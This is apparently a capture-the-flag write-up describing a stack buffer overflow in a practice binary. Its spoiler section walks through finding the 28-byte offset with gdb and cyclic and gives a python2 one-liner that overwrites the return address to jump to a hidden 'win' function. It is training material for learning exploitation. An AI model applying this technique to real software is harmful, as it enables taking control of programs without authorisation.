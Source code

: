 <h2>Description</h2>
<p>Buffers are memory storage regions that temporarily hold data while it is being transferred from one location to another. A buffer overflow occurs when the volume of data exceeds the storage capacity of the memory buffer. As a result, the program attempting to write the data to the buffer overwrites adjacent memory locations.</p>

<h2>Goal</h2>
<p>Successfully display what is in the win function, normally inaccessible</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>* Check the security of the binary with checksec --file binary1</p>
    <p>* try to overflow the buffer of binary1</p>
    <p>* debug with gdb</p>
    <p>* cyclic 100 in binary input</p>
    <p>* Binary crash with EIP 'haaa' (register for next instruction to execute)</p>
    <p>* cyclic -l haaa --> 28</p>
    <p>* So we send 28 characters before sending the address of our hidden function</p>
    <p>* info funcitons (in gdb) to get the address of the win function (0x080491d6)</p>
    <p>* python2 -c 'print "A" * 28 + "\xd6\x91\x04\x08"' [PAYLOAD]</p>
</details>
